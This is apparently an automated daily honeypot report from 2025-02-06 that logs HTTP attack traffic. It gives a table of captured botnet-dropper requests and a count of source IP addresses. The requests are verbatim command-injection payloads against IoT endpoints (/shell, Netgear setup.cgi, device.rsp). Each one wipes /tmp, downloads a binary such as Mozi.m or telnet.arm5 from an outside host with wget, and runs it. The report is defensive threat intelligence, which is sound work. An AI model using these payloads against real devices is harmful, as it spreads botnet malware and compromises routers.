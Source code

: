 ```yaml
---
title: "Report: 2025-02-06 "
date: 2025-02-06
desciption: "Report: {today} "
tags: [repport, daily]
---
```


# Daily Report: 2025-02-06
interaction report on http service of various Hhoneypot around the world.
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of source IP addresses](#list_of_source_ip_addresses)
- [List of user_agent](#user_agent)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## botnet_dropper_behaviour
|    | remote_addr     | request                                                                                                                                                                                                                   |
|---:|:----------------|:--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
|  0 | 185.196.10.129  | GET /shell?cd+/tmp;rm+holdarm+hold.arm7;wget+http:/\x5C/193.143.1.19/bins/hold.arm7;chmod+777+hold.arm7;./hold.arm7+hold.jaws;wget+http:/\x5C/193.143.1.19/bins/hold.arm;chmod+777+hold.arm;./hold.arm+hold.jaws HTTP/1.1 |
|  1 | 141.255.166.90  | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20arm7%3B%20wget%20http%3A%2F%2F178.162.172.219%2Farm7%3B%20chmod%20777%20%2A%3B%20.%2Farm7%20tbk HTTP/1.1                              |
|  2 | 110.183.18.82   | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://110.183.18.82:42245/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                                              |
|  3 | 8.152.208.190   | GET /shell?cd+/tmp;rm+-rf+*;wget+ 45.90.162.234/wdjkalwww/telnet.arm5;chmod+777+/tmp/telnet.arm5;sh+/tmp/telnet.arm5 HTTP/1.1                                                                                             |
|  4 | 146.190.143.107 | GET /shell?cd+/tmp;rm+-rf+*;wget+ 103.241.65.218/selfreps/telnet.arm5;chmod+777+/tmp/telnet.arm5;sh+/tmp/telnet.arm5 HTTP/1.1                                                                                             |
|  5 | 101.127.6.27    | GET /shell?cd+/tmp;rm+-rf+*;wget+ 103.241.65.218/selfreps/telnet.arm5;chmod+777+/tmp/telnet.arm5;sh+/tmp/telnet.arm5 HTTP/1.1                                                                                             |
|  6 | 196.75.131.141  | GET /shell?cd+/tmp;rm+-rf+*;wget+ 103.241.65.218/selfreps/telnet.arm5;chmod+777+/tmp/telnet.arm5;sh+/tmp/telnet.arm5 HTTP/1.1                                                                                             |
|  7 | 59.95.82.185    | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://59.95.82.185:53205/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                                               |
|  8 | 87.236.146.112  | GET /shell?cd+/tmp;rm+-rf+*;wget+ 103.241.65.218/selfreps/telnet.arm5;chmod+777+/tmp/telnet.arm5;sh+/tmp/telnet.arm5 HTTP/1.1                                                                                             |
|  9 | 200.59.86.78    | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                                                                     |

## list_of_source_IP_addresses
|     |   number_of_occurence | remote_addr     |
|----:|----------------------:|:----------------|
|   0 |                    42 | 141.255.166.90  |
|   1 |                    39 | 92.255.57.58    |
|   2 |                    36 | 80.66.83.49     |
|   3 |                    33 | 78.153.140.203  |
|   4 |                    22 | 46.19.138.234   |
|   5 |                    21 | 80.82.77.202    |
|   6 |                    19 | 95.214.55.43    |
|   7 |                    18 | 185.91.127.88   |
|   8 |                    13 | 179.43.191.146  |
|   9 |                    12 | 164.90.231.69   |
|  10 |                    12 | 178.128.171.197 |
|  11 |                    12 | 209.38.81.166   |